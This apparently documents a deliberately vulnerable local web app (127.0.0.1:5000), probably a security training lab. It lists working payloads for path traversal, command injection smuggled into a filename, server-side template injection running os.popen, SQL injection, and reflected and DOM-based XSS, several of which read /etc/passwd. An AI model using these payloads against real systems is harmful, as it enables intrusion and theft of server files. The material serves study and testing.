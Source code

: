 1. Path traversal:

Payload:

```bash
http://127.0.0.1:5000/image?filename=/etc/passwd
```

2. File non-sanitization:

Payload:

```bash
curl -X POST \
     -d "filename=dummy.pdf; cat /etc/passwd" \
     http://127.0.0.1:5000/run-script
```

3. SSTI:

Payload:

```bash
http://127.0.0.1:5000/render?content=%7B%7Bconfig.__class__.__init__.__globals__%5B'os'%5D.popen('cat%20/etc/passwd').read()%7D%7D
```

4. SQL injection

Payload

```bash
http://127.0.0.1:5000/logs?query=1=1--
```

5. Reflected XSS

Payload

```bash
http://127.0.0.1:5000/xss?input=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
```

6. DOM-based XSS

Payload

```bash
http://127.0.0.1:5000/domxss#<img src%3Dx onerror%3Dalert(1)>
```
